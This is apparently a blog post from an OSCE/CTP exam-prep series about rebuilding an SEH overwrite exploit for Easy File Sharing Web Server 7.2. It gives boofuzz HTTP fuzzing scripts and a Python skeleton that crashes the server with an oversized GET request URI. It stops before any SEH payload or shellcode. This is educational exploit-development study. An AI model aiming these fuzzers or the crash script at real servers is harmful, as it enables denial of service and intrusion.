 ```yaml
---
layout: single
title: CTP/OSCE Prep -- Easy File Sharing Web Server 7.2 SEH Overwrite
date: 2019-6-13
classes: wide
header:
  teaser: /assets/images/CTP/immunity.jpg
tags:
  - buffer overflow
  - Windows
  - x86
  - shellcoding
  - exploit development
  - assembly
  - python
  - OSCE
  - CTP
--- 
```

![](/assets/images/CTP/1920x1080_Wallpaper.jpg)

## Introduction

This series of posts will focus on the concepts I'm learning/practicing in preparation for [CTP/OSCE](https://www.offensive-security.com/information-security-training/cracking-the-perimeter/). In this series of posts, I plan on exploring:
+ fuzzing,
+ vanilla EIP overwrite,
+ SEH overwrite, and
+ egghunters.

Writing these entries will force me to become intimately familiar with these topics, and hopefully you can get something out of them as well! 

This particular post is about recreating an SEH Overwrite from an ExploitDB entry.

## Finding a Candidate Exploit

Since I've just about finished all of the Vulnserver exploits and have gone through most of the CTP material, I figured it's time to start getting some experience recreating real world exploits from scratch. I searched for 'SEH' on ExploitDB and settled on the [Easy File Sharing Web Server 7.2](https://www.exploit-db.com/exploits/39008) exploit. I picked this exploit in particular because up to this point I have not done much exploit developement with webservers, most of my experience has come from Vulnserver.  

## Fuzzing

The very first thing I did after downloading and installing the software from [here](http://www.sharing-file.com/) was look for `boofuzz` http fuzzing templates. The first one I came to was [here](https://github.com/jtpereyda/boofuzz-http) and has the following source code: 
```python
#!/usr/bin/env python
# Designed for use with boofuzz v0.0.9
from boofuzz import *


def main():
    session = Session(
        target=Target(
            connection=SocketConnection("127.0.0.1", 80, proto='tcp')
        ),
    )

    s_initialize(name="Request")
    with s_block("Request-Line"):
        s_group("Method", ['GET', 'HEAD', 'POST', 'PUT', 'DELETE', 'CONNECT', 'OPTIONS', 'TRACE'])
        s_delim(" ", name='space-1')
        s_string("/index.html", name='Request-URI')
        s_delim(" ", name='space-2')
        s_string('HTTP/1.1', name='HTTP-Version')
        s_static("\r\n", name="Request-Line-CRLF")
    s_static("\r\n", "Request-CRLF")

    session.connect(s_get("Request"))

    session.fuzz()


if __name__ == "__main__":
    main()
```

The first thing I noticed was that the script creates a list of HTTP methods for `boofuzz` to craft packets from, fuzzes the `s_delim` entities `'space-1'` and `'space-2'`, and fuzzes `s_string` entities `'Request-URI'` and `'HTTP-Version'`. `boofuzz` does not fuzz `s_static` entities. 

As you can probably gather, this isn't a super in-depth fuzzing script but it's a great start. It's going to test several HTTP methods and it's going to fuzz about 4 values. Other standard HTTP request fields (such as User Agent) will not be fuzzed, but we can save that for another time.

After a round of fuzzing, the application crashes relatively closely and as you can see from the screenshot, we notice EAX has been overwritten with `C` values. 

![](/assets/images/CTP/efscrash1.JPG)

Looking through the payloads sent in the `boofuzz-results` folder, the only payload I could find mention of with `C` values was a 512 byte payload sent in the following format: `GET (C*n) `. This led me to believe that the field responsible for the crash was the value after the space in the `GET` request which in our case was the `'Request-URI'` `s_string` entity (`/index.html`). 

![](/assets/images/CTP/boofuzzresults.JPG)

It was pretty frustrating not seeing any reference to larger payloads sent by `boofuzz` in the results folder but at least I was able to sort of piece together the format that led to the crash. Terminal output payloads were as large as 100k bytes. I decided to se all of the other fuzzable entities in our `boofuzz` script to not fuzzable to test my half-baked theory. So now our `boofuzz` script looks like this: 
```python
#!/usr/bin/python

from boofuzz import *


def main():
    session = Session(
        target=Target(
            connection=SocketConnection("192.168.1.201", 80, proto='tcp')
        ),
    )

    s_initialize(name="Request")
    with s_block("Request-Line"):
        s_group("Method", ['GET', 'HEAD', 'POST', 'PUT', 'DELETE', 'CONNECT', 'OPTIONS', 'TRACE'])
        s_delim(" ", name='space-1', fuzzable = False)
        s_string("/index.html", name='Request-URI')
        s_delim(" ", name='space-2', fuzzable = False)
        s_string('HTTP/1.1', name='HTTP-Version', fuzzable = False)
        s_static("\r\n", name="Request-Line-CRLF")
    s_static("\r\n", "Request-CRLF")

    session.connect(s_get("Request"))

    session.fuzz()


if __name__ == "__main__":
    main()
```

Again we get a crash and EAX is overwritten with `C` values. So we know for certain the `'Request-URI'` entity is vulnerable. Time to create a skeleton and recreate the crash. 

![](/assets/images/CTP/efscrash2.JPG)

## Skeleton Exploit

The first thing I did at this point was google for 'http skeleton exploits' and came across this [github repo](https://github.com/HanseSecure/ExploitDev/tree/master/poc) which included an http exploit skeleton. After modifying it slightly to fit my personal taste and our vulnerability analysis up to this point, our skeleton looks like this:
```python
import socket
import os
import sys

ip = "192.168.1.201"
port = 80

crash = "A" * 5000


buffer="GET "
buffer+=crash
buffer+=" HTTP/1.1\r\n"

expl = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
expl.connect((ip, port))
expl.send(buffer)
expl.close()
```

## Resources

+ 
